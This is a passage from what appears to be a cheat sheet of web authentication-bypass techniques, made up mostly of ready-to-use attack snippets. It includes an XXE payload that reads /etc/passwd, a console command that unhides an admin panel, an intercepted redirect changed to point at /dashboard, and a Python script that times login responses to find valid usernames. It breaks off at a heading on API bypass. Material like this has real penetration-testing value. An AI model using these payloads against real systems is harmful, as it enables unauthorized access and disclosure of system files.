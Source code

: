 ### 12. XML External Entity (XXE) Authentication Bypass

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <user>&xxe;</user>
</userInfo>
```

## Advanced Bypass Techniques

### 1. Backend vs. Frontend Validation Mismatch

```javascript
// Frontend validation
if (user.role !== 'admin') {
  hideAdminPanel();
}

// Bypass: Modify DOM or use developer console
document.getElementById('admin-panel').style.display = 'block';
```

### 2. Response Manipulation with Proxy

```
# Original response
HTTP/1.1 302 Found
Location: /login?error=AuthenticationFailed

# Modified response (intercept and change with Burp Suite)
HTTP/1.1 302 Found
Location: /dashboard
```

### 3. Timing Attacks

```python
# Script to test for timing differences in responses
import requests
import time

for username in usernames:
    start_time = time.time()
    r = requests.post('https://example.com/login', data={'username': username, 'password': 'wrong'})
    duration = time.time() - start_time
    print(f"Username: {username}, Time: {duration:.4f}s")
```

### 4. API Authentication Bypass
